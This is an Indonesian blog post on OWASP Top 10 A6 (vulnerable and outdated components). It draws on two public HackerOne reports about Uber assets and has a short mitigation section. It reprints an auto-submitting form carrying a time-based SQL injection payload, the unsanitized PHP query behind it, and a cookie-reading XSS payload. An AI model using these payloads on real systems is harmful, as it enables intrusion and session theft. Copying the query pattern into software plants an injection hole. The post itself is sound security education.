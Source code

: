 ```yaml
---
title: "Owasp Top 10 Series — A6 (Vulnerable and Outdated Components)"
date: 2022-05-07T18:45:34+07:00
tags: ["security"]
categories: ["Owasp Top Ten"]
description: "OWASP Top 10 — A6: Vulnerable and Outdated Components adalah kerentanan yang terjadi ketika aplikasi menggunakan perangkat lunak, library, atau dependensi yang sudah usang atau memiliki celah keamanan. Pencegahan meliputi pembaruan rutin, pemantauan CVE, serta penggunaan dependensi yang didukung dan aman."
disableHLJS: true 
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
---
```

![Owasp Top 10 Series — A6 (Vulnerable and Outdated Components)](cover.png)


## Pengantar

Artikel kali ini kita akan membahas owasp top 10 yang ada di urutan ke enam untuk tahun 2021 (owasp tiap 4 tahun sekali), ialah **Vulnerable and Outdated Components**.

OWASP merupakan singkatan dari _Open Web Application Security Project_, yang merupakan sebuah project _Security Web Application_ open source yang diperkasai oleh para penggiat teknologi atau pengembang aplikasi, OWASP sering mengadakan seminar, forum diskusi serta pendidikan untuk para Developer.

jadi yang dimaksud **OWASP TOP 10**? owasp top 10 merupakan sebuah cara untuk mengkategorikan resiko kerentanan yang sering terjadi pada sebuah aplikasi berbasis website, dari yang paling atas (resiko tertinggi) hingga yang paling bawah (tingkat resiko rendah), Tujuannya apa ?, tentu saja ini sangat berguna bagi para developer aplikasi supaya mereka jadi lebih aware terhadap kerentanan di aplikasi mereka.

## Vulnerable and Outdated Components

### apa itu Vulnerable and Outdated Components ?

**Vulnerable and Outdated Components** Merupakan sebuah kesalahan dari developer aplikasi yang memakai **Framework / Library** pihak ketiga tetapi masih versi lawas (Outdated), karena biasanya versi Outdate itu sangat rentan terhadadp serangan.

Ironisnya **Vulnerable and Outdated Components** ini sering terjadi di Indonesia :'(, apalagi situs situs yang tidak di maintenance dengan baik dan terbengkalai sehingga attacker dapat menggunakan kerentanan aplikasi itu.

## Praktikal

### #135288 Multiple vulnerabilities in a WordPress plugin at drive.uber.com

sumber : https://hackerone.com/reports/135288

attacker melakukan scanning di website **drive.uber.com** dan menemukan bahwa aplikasi tersebut masih menggunakan _WordPress 4.4.2_ (versi lawas).

dari \*WordPress 4.4.2\*\* ditemukan beberapa kerentanan seperti :

1. SQL INJECTION

attacker membuat sebuah halaman seperti berikut

```
<form action="https://drive.uber.com/ukmarketplace/wp-admin/edit.php?post_type=qa_faqs&page=faqpageorder" target="_blank"  method="post" style="display: none;">
            <input type="text" name="btnOrderPages" value="Click to Reorder FAQs" />
            <input type="text" name="hdnfaqpageorder" value="id_8,id_7" />
            <input type="text" name="hdnParentID" value="IF(MID(VERSION(),1,1) = 5, SLEEP(5), 0)" />
            <input type="text" name="btnReturnParent" value="1" />
            <input type="submit" name="send" value="Save" />
</form>
<script type="text/javascript">
document.forms[0].submit();
</script>
```

POST di _plugins/q-and-a/inc/reorder.php_

```
45. if (isset($_POST['btnReturnParent'])) {
46. 	$parentsParent = $wpdb->get_row("SELECT post_parent FROM $wpdb->posts WHERE ID = " . $_POST['hdnParentID'], ARRAY_N);
47. 	$parentID = $parentsParent[0];
48. }
```

2. Cross-Site Scripting (XSS)

Attacker Login ke _admin panel_ -> _Settings_ -> _Q & A_

ganti FAQ Homepage :

```
'"/autofocus/onfocus=alert(document.domain%2bdocument.cookie);//
```

### #168485 Exposed, outdated nginx server (v1.4.6) potentially vulnerable to heap-based buffer overflow & RCE

sumber : https://hackerone.com/reports/168485

attacker melakukan **recon** do ip address _54.153.101.52_ dan mendapati bahwa masih menggunakan **nginx version 1.4.6**

[CVE-2014-0133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0133)

CVE diatas terdapat kerentanan **RCE**

![Hackerone CVE 2014 0133](1.png)

## Mitigasi

Segera lakukan pengecekan berkala di aplikasi yang anda gunakan, jika memang memakai pihak ketiga (Framework) dari developer lain. usahakan selalu memakai versi yang paling update untuk meredam resiku peretasan.

## References

OWASP Application Security Verification Standard: V1 Architecture, design and threat modelling

OWASP Dependency Check (for Java and .NET libraries)

OWASP Testing Guide - Map Application Architecture (OTG-INFO-010)

OWASP Virtual Patching Best Practices

The Unfortunate Reality of Insecure Libraries

MITRE Common Vulnerabilities and Exposures (CVE) search

National Vulnerability Database (NVD)

Retire.js for detecting known vulnerable JavaScript libraries

Node Libraries Security Advisories

Ruby Libraries Security Advisory Database and Tools

```
https://safecode.org/publication/SAFECode_Software_Integrity_Controls0610.pdf
```

# Beberapa kerentanan lain di list CWE

CWE-937 OWASP Top 10 2013: Using Components with Known Vulnerabilities

CWE-1035 2017 Top 10 A9: Using Components with Known Vulnerabilities

CWE-1104 Use of Unmaintained Third Party Components
